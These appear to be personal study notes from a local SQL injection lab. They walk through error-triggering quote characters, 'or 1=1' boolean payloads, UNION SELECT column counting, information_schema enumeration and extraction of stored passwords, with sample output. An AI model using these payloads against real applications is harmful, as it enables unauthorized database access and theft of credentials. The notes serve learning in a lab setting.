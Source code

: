 If not familiar have a look at it `https://www.w3schools.com/sql/`

# ==Basic SQL Injection Attacks==

## [Labs](http://localhost/index.php) / Injection 0x01

## User search

search for `jeremy`
for now u will receive `Username: jeremy - Email: jeremy@example.com`

When u're accessing applications it's imp to try and take a little bit of time to understand
1 -> what's the intention of the application
2 -> what did the developers have in mind for each piece of functionality  
3 -> figure out how it works
This will help us find odd behaviour and vulnerabilities

To Test for SQL injection 
start with characters that might trigger an error like '  or "
e.g jeremy'  or jeremy"
and some other special character
Why would this trigger an error 
Often SQL queries are formed using single and double quotes and sending these characters can break the SQL statements and throw a database error which sometimes is printed back to us

Try logical operators this indicate whether we can control the SQL query 

jeremy' or 1=1#
back-end -> MySql
jeremy' or 1=1-- -

Union Keyword lets us retrieve information from other tables and columns that were not initially defined
jeremy' union select null# -> nothing founds
`jeremy' union select null,null,null# `depends on the number of column in the database
if got a result we know how many null are equal to how many columns are selected if theres not much info listed what happening in backend its selecting more info in backend but only outputting some of that to the screen for us to see

`jeremy' union select null,null,version()#`
should be able to query the version of the database 
we could grab some more info for example tables
`jeremy' union select null,null,table_name from information_schema.tables#`
All the tables that currently present on the data base 
For what Column Name Exist
`jeremy' union select null,null,column_name from information_schema.columns#`
We want to select the jeremys password for that we need to know the table name for this.. So listing the table again would show the current table whcih we are working with 
**Username: - Email: injection0x01**
so now
`jeremy' union select null,null,password from injection0x01#`
we will get this result 
```ts
Username: jeremy - Email: jeremy@example.com

Username: - Email: jeremyspassword

Username: - Email: jessamyspassword

Username: - Email: bobspassword
```
It selects all of the passwords from that column that we can use union select to exfiltrate other info from the database